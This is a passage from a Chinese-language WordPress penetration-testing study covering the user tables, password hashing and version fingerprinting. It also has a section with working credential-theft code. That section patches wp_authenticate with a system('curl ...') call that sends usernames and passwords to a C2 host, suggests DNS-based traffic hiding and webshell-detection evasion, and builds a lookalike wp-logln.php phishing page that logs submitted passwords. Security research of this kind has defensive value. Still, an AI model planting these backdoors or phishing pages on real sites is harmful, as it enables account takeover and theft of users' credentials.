+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.012 sec)
```

#### 数据内容研究

查询 wp\_users 内容，抽取一条数据作为示例数据

```plain
MariaDB [wordpress]> select * from wp_users\G;
*************************** 1. row ***************************
                 ID: 1
         user_login: may
          user_pass: $P$BIhCqMiD2uzJeO6twupZ5mLxywmI011
      user_nicename: may
         user_email: 1234567@qq.com
           user_url:
    user_registered: 2023-04-20 14:04:10
user_activation_key: 1682217747:$P$BB.woxlLoP440TeBAqHYGlQdPN2WpI1
        user_status: 0
       display_name: may
1 row in set (0.001 sec)
```

-   重复意义字段不再赘述
-   user\_pass 存储用户密码的 hash 加密算法后续探讨
-   user\_activation\_key 用户注册后用于激活账户的加密字符串，可用于验证用户的电子邮件地址

#### wp\_usermeta 表结构

```plain
MariaDB [wordpress]> desc wp_usermeta;
+------------+---------------------+------+-----+---------+----------------+
| Field      | Type                | Null | Key | Default | Extra          |
+------------+---------------------+------+-----+---------+----------------+
| umeta_id   | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| user_id    | bigint(20) unsigned | NO   | MUL | 0       |                |
| meta_key   | varchar(255)        | YES  | MUL | NULL    |                |
| meta_value | longtext            | YES  |     | NULL    |                |
+------------+---------------------+------+-----+---------+----------------+
4 rows in set (0.007 sec)
```

#### 数据内容研究

查询 wp\_usermeta 内容，抽取一条数据作为示例数据

```plain
*************************** 15. row ***************************
  umeta_id: 16
   user_id: 1
  meta_key: session_tokens
meta_value: a:1:{s:64:"1316d49c50e7e0ec03b2e315a270bb3daca0f69aeae33d316e816ecb31c7cf5c";a:4:{s:10:"expiration";i:1682476834;s:2:"ip";s:10:"172.22.0.1";s:2:"ua";s:117:"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36";s:5:"login";i:1682304034;}}
15 rows in set (0.005 sec)
```

前面几个没什么好说的，重点看一下 meta\_value 字段

```plain
a:1:{s:64:"1316d49c50e7e0ec03b2e315a270bb3daca0f69aeae33d316e816ecb31c7cf5c";a:4:{s:10:"expiration";i:1682476834;s:2:"ip";s:10:"172.22.0.1";s:2:"ua";s:117:"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36";s:5:"login";i:1682304034;}}
```

看起来这是一串序列化字符 反序列化解构后如下

```plain
Array
(
    [1316d49c50e7e0ec03b2e315a270bb3daca0f69aeae33d316e816ecb31c7cf5c] => Array
        (
            [expiration] => 1682476834
            [ip] => 172.22.0.1
            [ua] => Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
            [login] => 1682304034
        )

)
```

1316d49c50e7e0ec03b2e315a270bb3daca0f69aeae33d316e816ecb31c7cf5c，值是另外一个数组。这个数组包含了以下四个键值对：

-   expiration: 值为 1682476834，表示到期时间的 Unix 时间戳。
-   ip: 值为 172.22.0.1，表示登录时的 IP 地址。
-   ua: 值为 Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36，表示登录时的 User Agent 信息。
-   login: 值为 1682304034，表示登录时间的 Unix 时间戳。

## 1.3 用户权限管理研究

### 1.3.1 角色

[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1683622133332-f580ee5d-0bba-4e9c-afaa-34a044fdea3f.png#averageHue=%2396a32f&clientId=u4f469f24-2168-4&from=paste&height=374&id=u6079dd54&originHeight=591&originWidth=1100&originalType=binary&ratio=2&rotation=0&showTitle=false&size=294038&status=done&style=none&taskId=u29b96294-1367-4ed4-bcce-81dad823559&title=&width=697)  
当在 wp 网站上创建一个用户时，需要为该用户指定一个角色。角色定义了该用户在网站上所拥有的权限和功能。wp 内置了五个默认角色：

-   Super Admin 超级管理员：拥有网站的所有权限，只能由网站创建者指定
-   Administrator：拥有网站的所有权限，可以管理用户、发布内容、更改设置等
-   Editor 编辑：可以发布、编辑和删除自己和其他用户的文章，管理分类和标签，但不能管理用户和更改设置
-   Author 作者：可以发布、编辑和删除自己的文章，但不能发布文章和上传文件，也不能管理分类和标签、用户和设置
-   Contributor 投稿者：可以撰写和编辑自己的文章，但不能发布文章和上传文件，也不能管理分类和标签、用户和设置。

[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1683291680499-ee404b9e-29f9-4299-b321-3dee2831ec6f.png#averageHue=%23d0d0d0&clientId=ud2d76d9b-b97c-4&from=paste&height=338&id=ucaf8475f&originHeight=676&originWidth=2752&originalType=binary&ratio=2&rotation=0&showTitle=false&size=186583&status=done&style=none&taskId=u54831d0e-8217-4279-82f3-7d9647f209f&title=&width=1376)

### 1.3.2 特权

-   在 WordPress 中，每个角色都拥有其特权或权限，这些权限定义了他们可以做什么和不能做什么。
-   特权或权限是指在 WordPress 后台管理界面中，角色所能访问和执行的操作。
-   权限有编辑文章、发布评论、上传媒体文件、管理用户等。
-   在 WordPress 中，权限分配的原则是：给予用户尽可能少的权限，以确保他们只能执行他们需要执行的任务，而不会干扰或更改其它任务。这种权限分配和管理的方法被称为最小权限原则（Least Privilege Principle）。

wordpress 提供了`**WP_Roles`**、\`**WP\_Role`**和`**WP\_User\`**这几个类用于高级的权限管理，它们的具体使用场景根据 GPT 的回答可以总结如下：

1.  **自定义角色创建和管理**：当标准的 WordPress 角色（如管理员、编辑、作者等）不满足网站特定需求时，可以使用**WP\_Roles**和**WP\_Role**类来创建和管理自定义角色。例如，为特定类型的内容管理或功能添加专门的角色。
2.  **特定权限的分配和管理**：这些类允许网站管理员为现有角色添加或移除特定权限。例如，如果需要让编辑者角色能夹杂用户，可以使用**WP\_Role**类来实现这一点。
3.  **针对单个用户的权限管理**：**WP\_User**类可以用来管理单个用户的角色和权限。例如，如果需要为特定用户分配多个角色或者给特定用户添加特殊权限，可以使用这个类。
4.  **插件和主题开发**：开发者在创建插件或主题时，可能需要根据插件或主题的功能要求，添加新的用户角色或权限。这时，这些类就显得非常有用。
5.  **安全性增强**：在处理安全敏感的应用时，精确控制用户的权限是非常重要的。通过这些接口，可以限制用户访问敏感区域或执行特定操作，以增强网站的安全性。
6.  **用户权限的动态调整**：在需要动态调整用户权限的场景，如基于用户行为或其他条件，可以使用这些类动态更改用户的角色和权限。
7.  **多用户管理和协作**：在有多用户参与的网站，如多作者博客、新闻网站或企业网站，这些类可以帮助管理不同用户的角色和权限，以保证有效的内容管理和协作。

### 1.3.3 用户

通过用户界面，管理员可以创建、编辑和删除用户，设置他们的角色、电子邮件地址、密码等。同时，管理员还可以为每个用户设置其自己的偏好设置，例如个人资料信息、头像等。

## 1.4 用户密码加密算法研究

wordpress 使用了一种名为`**phpass**`的开源类来生成和验证用户密码，这个过程涉及到几个关键步骤和函数：

### 密码哈希生成

使用`**wp_hash_password()**`函数，该函数内部依赖`**phpass**`类

```plain
function wp_hash_password($password) {
  global $wp_hasher;

  if ( empty($wp_hasher) ) {
    require_once( ABSPATH . WPINC . '/class-phpass.php');
    // By default, use the portable hash from phpass
    $wp_hasher = new PasswordHash(8, true);
  }

  return $wp_hasher->HashPassword( trim( $password ) );
}
endif;
```

其中`**$wp_hasher**`对象实例化的就是引入的 phpass 开源类

```plain
class 
function HashPassword($password)
    {
        if ( strlen( $password ) > 4096 ) {
            return '*';
        }

        $random = '';

        if (CRYPT_BLOWFISH == 1 && !$this->portable_hashes) {
            $random = $this->get_random_bytes(16);
            $hash =
                crypt($password, $this->gensalt_blowfish($random));
            if (strlen($hash) == 60)
                return $hash;
        }
    ...
```

在哈希过程中会生成 salt 结合用户的明文密码进行加密，加密算法取决于 php 版本  
php5.0 及以上的版本使用 Blowfish 算法进行加密，低于 php5.0 的版本则使用 md5 算法  
blowfish 是一种对称加密算法，理论上是可逆的，但 wordpress 使用的是它的变体 bcrypt，这个加密过程是单向的

### 密码验证

使用`**wp_check_password()**`函数，这个函数将用户输入的密码与数据库中存储的哈希进行比对，在这个过程中，它还会再次使用 phpass 类中的方法来进行比对

```plain
function wp_check_password($password, $hash, $user_id = '') {
    global $wp_hasher;

    // If the hash is still md5...
    if ( strlen($hash) <= 32 ) {
        $check = hash_equals( $hash, md5( $password ) );
        if ( $check && $user_id ) {
            // Rehash using new hash.
            wp_set_password($password, $user_id);
            $hash = wp_hash_password($password);
        }
  ...
```

## 1.5 登陆明文密码劫持

### 后门劫持

通过修改/wp-include/pluggable.php 文件中的`wp_authenticate`方法实现明文密码的劫持

```plain
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  system('curl http://1x2.1x4.7x.2x4:18080/?password='.$username.$password);
    ...
```

在 c2 建立监听 当 wordpress 用户登录时 就会向 c2 发送明文账号密码[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705049648036-6bc3a997-6283-44ec-97a1-acd7ef719939.png#averageHue=%2344484d&clientId=u73ac5ba2-244f-4&from=paste&height=208&id=ucb42f755&originHeight=416&originWidth=1424&originalType=binary&ratio=2&rotation=0&showTitle=false&size=116522&status=done&style=none&taskId=u9c4e8158-08ec-418c-8484-61a3cd40b1b&title=&width=712)  
对于明文密码的传递可以通过 dns\_get\_record 等函数进行流量的特征脱敏  
对于后门部分可以通过规避 webshell 检测工具的思路编写

但是这样的实现方式总归都很容易察觉 并且 system 之类的函数在应用部署后基本就是默认禁用

所以还是使用写入本地文件 隔一段时间再上线查看比较可靠

```plain
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  file_put_contents('accesss.log',$username.$password);
   ...
```

[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705057214590-b48ec082-f011-4309-949f-8917db67a1f8.png#averageHue=%230d1414&clientId=u73ac5ba2-244f-4&from=paste&height=124&id=uf7cb4e9b&originHeight=248&originWidth=1002&originalType=binary&ratio=2&rotation=0&showTitle=false&size=103557&status=done&style=none&taskId=uba5567ac-9c7d-49ee-b15e-7aadeebf323&title=&width=501)

### 钓鱼劫持

针对安全意识不强的操作人员 可以通过钓鱼劫持的方式将访问/wp-login.php 的请求重定向到钓鱼页面，在钓鱼网站输入密码后再重定向到原本的登录界面  
针对不出网的环境 可以部署相似文件名的本地文件做鱼饵 如 wp-logln.php  
1.在 wp\_login.php 中插入重定向到 wp\_logln.php 的语句 通过 session 字段避免重定向死循环

```plain
session_start();
$host = $_SERVER['HTTP_HOST'];
if(!isset($_SESSION['redirected'])){
    $_SESSION['redirected'] = true;
    header('Location: http://' . $host . '/wp-logln.php');
}
```

2.使用 httrack 工具克隆 wp\_login.php 前端页面  
[GitHub - xroche/httrack: HTTrack Website Copier, copy websites to your computer (Official repository)](https://github.com/xroche/httrack)  
对表单部分进行修改 在表单后插入代码进行明文密码劫持

```plain
<form name="loginform" id="loginform" action="wp-logln.php" method="post">
  <p>
    <label for="user_login">用户名或电子邮件地址

      <input type="text" name="log" id="user_login" class="input" value="" size="20" /></label>
  </p>
  <p>
    <label for="user_pass">密码

      <input type="password" name="pwd" id="user_pass" class="input" value="" size="20" /></label>
  </p>
  <p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"  /> 记住我</label></p>
  <p class="submit">
    <input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="登录" />
    <input type="hidden" name="redirect_to" value="http://localhost/wp-admin/" />
    <input type="hidden" name="testcookie" value="1" />
  </p>
</form>
```

```plain
<?php
setcookie('redirected','1');
$u=$_POST['log'];
$p=$_POST['pwd'];
if(isset($_POST['log']) && isset($_POST['pwd'])){
    file_put_contents('/var/log/accesss.log',$u.$p);
    session_start();
    $_SESSION['redirected'] = false;
    header('Location: /admin');
}
?>
```

当正常访问登录页面时 就会被重定向到钓鱼页面  
输入账号密码后将重定向到真实登录页面 此时账号密码已被记录  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705059122210-1470f63b-1864-4fd9-a5ef-50b23b3630c4.png#averageHue=%23e0e0e0&clientId=u73ac5ba2-244f-4&from=paste&height=756&id=uc09dbcfc&originHeight=1512&originWidth=3086&originalType=binary&ratio=2&rotation=0&showTitle=false&size=186229&status=done&style=none&taskId=u0aeb091c-26c5-4cae-8e23-d953661ac3a&title=&width=1543)  
在这个过程中尤其要注意目标写入文件的权限 防止 warning

## 2.Wordpress 渗透测试研究

## 2.1 主流工具

### wpscan

wpscan 是一款使用 ruby 开发的跨平台 wordpress 扫描和渗透工具  
[GitHub - wpscanteam/wpscan: WPScan WordPress security scanner. Written for security professionals and blog maintainers to test the security of their WordPress websites. Contact us via contact@wpscan.com](https://github.com/wpscanteam/wpscan)  
扫描示例：

```plain
wpscan --url http://localhost:81 --wp-content-dir /wp-content/ --enumerate vp --plugins-detection aggressive --api-token xxxxxxxxxxxxx
```

\--wp-content-dir 指定的是文章的路径  
在许多使用 wordpress 框架的网站中 文章路径一般都不在/wp-content/所以提供了参数进行指定  
\--enumerate vp 可以枚举所有易受攻击的插件  
\--plugins-detection aggressive 指定的是发现插件的方式 这里指定的是积极的方式  
wpscan 可以以三种方式检测插件：被动（从 HTML 源代码检测）、主动（检查插件默认文件的标准路径）和积极（执行更全面的检查）  
\--api-token 指定的是 wpscan 官方提供的 api  
在 wpscan.com 官网进行注册后可以得到 free 版本的 api 有了 api 才能连接漏洞库进行扫描

### cmsmap

cmsmap 是一款实用 python 开发的跨平台 cms 扫描工具 支持扫描 WordPress、Joomla,、Drupal、Moodle  
[https://github.com/dionach/CMSmap](https://github.com/dionach/CMSmap)  
cmsmap 实用 exploitdb 进行扫描 建议在 kali 等自带 exploitdb 的操作系统上使用 如果没有 也可以使用官方 exploitdb  
[Exploit-DB / Exploits + Shellcode + GHDB · GitLab](https://gitlab.com/exploit-database/exploitdb)

## 2.2 wordpress 版本侦查

在实际渗透中 cms 版本号可以帮助我们寻找历史漏洞进行利用  
下面将演示一些主要方法

### 自述文件 - readme.thml

这是最简单的技巧 只需访问/readme.html 即可得到版本号  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706251124395-3a4dc962-54e9-4d7b-8b35-53528bc6cc1f.png#averageHue=%23dedede&clientId=u7a5cd868-df9a-4&from=paste&height=633&id=uad60f524&originHeight=1266&originWidth=2656&originalType=binary&ratio=2&rotation=0&showTitle=false&size=209062&status=done&style=none&taskId=u8b2ca45a-1f57-4827-8d1f-0bb71c6e293&title=&width=1328)  
该文件的目的是在初次安装时提供安装手册以及版本信息 在完成了 wordpress 的部署后应删除该文件

### html 元标签

具有 generator 名称属性的元标记通常被描述为用于生成文档/网页的软件。确切的版本号在 meta 标签的 content 属性中公开  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706251469308-89b034dc-22ed-46be-804b-75b04a3087dd.png#averageHue=%23bab8b8&clientId=u7a5cd868-df9a-4&from=paste&height=206&id=u0d2d2d73&originHeight=412&originWidth=1492&originalType=binary&ratio=2&rotation=0&showTitle=false&size=188487&status=done&style=none&taskId=ue13cb025-35c1-4ca5-bb9b-8527ab80786&title=&width=746)

### JavaScript || CSS

在 wp-admin/install.php、wp-admin/upgrade.php、wp-login.php 文件的源代码中可以看到部分 css 链接的 ver 参数中携带了版本号  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706251635389-0b73d083-7d98-44fc-821c-22ae5882321e.png#averageHue=%23d3d2d1&clientId=u7a5cd868-df9a-4&from=paste&height=328&id=u6a8ad267&originHeight=656&originWidth=1656&originalType=binary&ratio=2&rotation=0&showTitle=false&size=155586&status=done&style=none&taskId=ue9256720-a8ee-405f-a6fb-002acfb1e15&title=&width=828)

### Feed

Feed 是一种数据格式，它允许用户订阅频繁更新的内容，如博客文章、新闻、音频或视频系列等。RSS 是最常见的 Feed 格式之一  
以下是 feed checklist 不同 wordpress 版本下存在差异

-   /index.php/feed/
-   /index.php/feed/rss/
-   /index.php/feed/rss2/
-   /index.php/comments/feed/
-   /index.php/feed/rdf/（文件在本地下载）
-   /index.php/feed/atom/
-   /?feed=atom
-   /?feed=rss
-   /?feed=rss2
-   /?feed=rdf

以/?feed=rss 为例 可以在？v 参数中发现版本号  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706252017423-2e7341fe-4d8a-4ff7-8a82-dccf35b97832.png#averageHue=%23969696&clientId=u7a5cd868-df9a-4&from=paste&height=124&id=u6551824e&originHeight=248&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=176048&status=done&style=none&taskId=u9e3c4a79-0f5a-49e7-a788-49b20da38d0&title=&width=1547)

### OPML

OPML（Outline Processor Markup Language）是一种基于 XML 的格式，用于交换轮廓结构的信息。轮廓结构通常指的是嵌套的文本列表，类似于大纲或树状结构。OPML 在多种应用中都很有用，尤其是在共享和迁移 RSS 订阅列表的场景中。  
但此文件也会纰漏版本信息  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706252112012-f246abff-e8bf-4c0c-a23c-21fae95ff491.png#averageHue=%23c8c8c8&clientId=u7a5cd868-df9a-4&from=paste&height=304&id=uaa6b9105&originHeight=608&originWidth=1234&originalType=binary&ratio=2&rotation=0&showTitle=false&size=114731&status=done&style=none&taskId=u307d3a44-6fa3-4e79-8e78-c5e0cbe9de3&title=&width=617)

### MD5 比较

通过比对 js 静态文件 md5 与特征库中的 md5 来判断 cms 版本 这也是漏扫工具进行指纹识别的常用方法  
使用 find 命令结合参数计算所有 js 文件 md5  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706253349610-032e47d5-b77c-4b5b-bbcb-474e0f1fbe10.png#averageHue=%234c5062&clientId=u7a5cd868-df9a-4&from=paste&height=333&id=ubdfc0517&originHeight=666&originWidth=1606&originalType=binary&ratio=2&rotation=0&showTitle=false&size=316192&status=done&style=none&taskId=u33d5b899-590f-4975-a45e-2c974b9463c&title=&width=803)  
md5 特征库可以查看这个项目[https://github.com/philipjohn/exploit-scanner-hashes](https://github.com/philipjohn/exploit-scanner-hashes)

## 2.3 getshell 测试案例

环境使用 wpscan 开发团队提供的 VulnerableWordpress 进行部署 版本为 4.2.1

```plain
-> git clone https://github.com/wpscanteam/VulnerableWordpress.git
-> cd VulnerableWordpress/
-> docker build --rm -t wpscan/vulnerablewordpress .\
-> docker run --name vulnerablewordpress -d -p 81:80 -p 3307:3306 wpscan/vulnerablewordpress
```

访问 127.0.0.1:81 初始化过程略  
